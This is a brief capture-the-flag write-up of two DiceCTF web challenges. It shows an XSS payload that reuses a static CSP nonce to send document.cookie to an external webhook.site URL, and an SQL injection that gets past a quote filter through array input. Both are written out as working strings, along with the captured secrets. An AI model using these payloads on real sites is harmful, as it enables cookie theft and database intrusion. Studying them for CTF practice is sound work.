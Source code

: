 **[web/Babier CSP](https://babier-csp.dicec.tf/)**
We have source code index.js
In line 8, it sets
```
const NONCE = crypto.randomBytes(16).toString('base64');
```
and in line 26
```
res.setHeader("Content-Security-Policy", `default-src none; script-src 'nonce-${NONCE}';`);
```
This code just run 1 time, so NONCE doesn't change after run server, Ctrl+U we have nonce
```
+ZSveZwTAUqC6Pt9p+rgUg==
```
We can XSS by using webhook.site
```
https://babier-csp.dicec.tf/?name=%3Cscript%20nonce=%2BZSveZwTAUqC6Pt9p%2BrgUg==%3Elocation.href=%22https://webhook.site/c23c6a4a-1ad6-420d-a488-033f8762e6ed/?data=%22%2Bdocument.cookie%3C/script%3E
```
We got the secret
```
secret=4b36b1b8e47f761263796b1defd80745
```
**[web/Missing Flavortext](https://missing-flavortext.dicec.tf)**  
We have source code index.js  
In line 34, it have filter ', let bypass it by using array input
```
username[]
```
It's a simple SQL Injection
```
admin' or '1' = '
```
We got the flag
```
dice{sq1i_d03sn7_3v3n_3x1s7_4nym0r3}
```